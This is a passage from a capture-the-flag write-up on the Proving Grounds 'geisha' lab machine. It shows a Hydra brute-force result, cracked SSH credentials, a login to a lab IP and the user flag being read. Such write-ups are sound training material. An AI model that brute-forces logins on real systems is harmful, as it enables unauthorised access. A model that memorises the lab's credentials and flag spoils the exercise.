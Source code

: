 ```bash
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-19 19:28:41
┌─[✗]─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/geisha]
└──╼ $
```

Boom!! We got valid credential for shh-login. 

`username : geisha`
`password : letmein`

## Gaining Foothold

Let's login to the system via `SSH` as we have found valid login credentials.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/offsec-PG/geisha]
└──╼ $ssh geisha@192.168.54.82
The authenticity of host '192.168.54.82 (192.168.54.82)' can't be established.
ECDSA key fingerprint is SHA256:VZJ2vD6+/BC5zd9v8nRSgqEHyfR17GuCELg0nE0BkFk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.54.82' (ECDSA) to the list of known hosts.
geisha@192.168.54.82's password: 
Linux geisha 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1+deb10u1 (2020-04-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
geisha@geisha:~$ whoami;hostname
geisha
geisha
geisha@geisha:~$
```
The user flag can be found in the user's `home` folder.

```bash
geisha@geisha:~$ ls -la
total 24
drwxr-xr-x 2 geisha geisha 4096 Aug 20  2020 .
drwxr-xr-x 3 root   root   4096 May  3  2020 ..
-rw-r--r-- 1 geisha geisha  220 May  3  2020 .bash_logout
-rw-r--r-- 1 geisha geisha 3526 May  3  2020 .bashrc
-rw-r--r-- 1 geisha geisha  807 May  3  2020 .profile
-rw-r--r-- 1 geisha geisha   33 Sep 19 09:18 local.txt
geisha@geisha:~$ cat local.txt
8f602c394d30a50cd1b6000fdca6f476
geisha@geisha:~$
```

